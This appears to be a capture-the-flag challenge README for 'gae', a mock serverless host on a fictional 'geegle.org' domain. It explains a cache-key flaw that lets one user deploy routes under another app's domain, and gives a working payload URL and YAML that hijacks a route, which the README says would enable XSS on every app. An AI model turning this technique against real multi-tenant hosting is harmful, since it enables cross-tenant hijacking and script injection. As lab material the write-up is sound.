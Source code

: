 # gae (Geegle App Engine)

Like Amazon Lambda using sandboxed Python.

**Feel free to write other services using this infra**

## How-To

Example deploy:
```
---
urls:
  "/": |-
    gae_rsp = gaeutils.make_response("Hello World")
  "/ping": |-
    gae_rsp = gaeutils.make_response("Pong")
  "/add": |-
    num_a = int(request.args.get("a"))
    num_b = int(request.args.get("b"))
    gae_rsp = gaeutils.make_response("Answer is " + str(num_a + num_b))
  "/error": |-
    gae_rsp = gaeutils.errorpage("Oops our server has fallen asleep")
  "/redirect": |-
    gae_rsp = gaeutils.redirect("https://www.adamyi.com/")
  "/json": |-
    gae_rsp = gaeutils.make_response(gaeutils.json_encode({"json": "is_easy"}))
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request.path, code=404)
```

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request.path, code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked

## author
adamyi
